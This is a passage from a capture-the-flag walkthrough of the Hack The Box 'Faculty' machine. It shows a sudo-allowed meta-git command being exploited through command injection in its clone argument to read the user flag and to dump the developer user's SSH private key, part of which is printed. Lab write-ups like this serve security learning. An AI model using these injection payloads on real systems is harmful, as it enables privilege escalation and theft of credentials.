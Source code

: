 User _gbyolo_ does not have any flag, it can be on the _developer_ user. When having the password, I always go for sudo -l command to check if the user can run a command as some other user and in this case we can run commands as the _developer_ user:

```bash
-bash-5.0$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

I have never seen that tool. First Google results for the meta-git plugin shows this vuln in [HackerOne](https://hackerone.com/reports/728040)

Running the following command to trigger the vulnerability will show us the user flag (note, run it out of the _gbyolo_ user to trigger the "no such file or directory exception" instead of the "permission denied"):

```bash
-bash-5.0$ sudo -u developer meta-git clone 'sss || cat /home/developer/user.txt'
meta git cloning into 'sss || cat /home/developer/user.txt' at user.txt

user.txt:
fatal: repository 'sss' does not exist
218a082d9f0366368e75b11db86a69a6
cat: user.txt: No such file or directory
user.txt: command 'git clone sss || cat /home/developer/user.txt user.txt' exited with error: Error: Command failed
```

``` 218a082d9f0366368e75b11db86a69a6 ```

Correct execution out of the home directory:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/faculty/7_0_user.png" width="90%"/>
</p>

No output when triggering "permission denied" exception:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/faculty/7_1_error.png" width="90%"/>
</p>


## More Lateral movement

First thing was trying to exfiltrate a private key for the developer user and it has one, so we can now connect through SSH.

```bash
-bash-5.0$ sudo -u developer meta-git clone 'sss || cat /home/developer/.ssh/id_rsa'
meta git cloning into 'sss || cat /home/developer/.ssh/id_rsa' at id_rsa

id_rsa:
fatal: repository 'sss' does not exist
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxDAgrHcD2I4U329//sdapn4ncVzRYZxACC/czxmSO5Us2S87dxyw
izZ0hDszHyk+bCB5B1wvrtmAFu2KN4aGCoAJMNGmVocBnIkSczGp/zBy0pVK6H7g6GMAVS
pribX/DrdHCcmsIu7WqkyZ0mDN2sS+3uMk6I3361x2ztAG1aC9xJX7EJsHmXDRLZ8G1Rib
KpI0WqAWNSXHDDvcwDpmWDk+NlIRKkpGcVByzhG8x1azvKWS9G36zeLLARBP43ax4eAVrs
Ad+7ig3vl9Iv+ZtRzkH0PsMhriIlHBNUy9dFAGP5aa4ZUkYHi1/MlBnsWOgiRHMgcJzcWX
```